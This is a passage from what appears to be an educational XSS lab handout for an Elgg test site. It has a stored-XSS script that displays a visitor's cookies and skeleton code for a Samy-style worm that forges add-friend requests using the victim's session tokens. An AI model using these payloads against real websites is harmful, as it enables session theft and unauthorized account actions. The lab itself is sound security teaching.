 In the above example, the page will fetch the JavaScript program from `http://www.example.com`, which can be any web server.

## Task 2: Posting a Malicious Message to Display Cookies

The objective of this task is to embed a JavaScript program in your `Elgg` profile, such that when another user views your profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:

```html
<script type="text/javascript">
    var cookie = document.cookie
    alert(cookie)
</script>
```

## Task 3: Becoming the Victim's Friend

In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy's page. This worm does not self-propagate; in task 5, we will make it self-propagating.

In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim. We have already created a user called Samy on the `Elgg` server (the user name is `samy`).

To add a friend for the victim, we should first find out how a legitimate user adds a friend in `Elgg`. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox's `HTTP Header Live` inspection tool can help us get the information. It can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request. Once we understand what the add-friend HTTP request look like, we can write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.

```html
<script type="text/javascript">
    window.onload = function () {
        // Set the timestamp and secret token parameters
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var attackerGuid=...;   //FILL IN
        var sendurl=...;    //FILL IN

        //Create and send Ajax request to modify profile
        if(elgg.session.user.guid!=attackerGuid){
            var Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send();
        }
    }
</script>
```
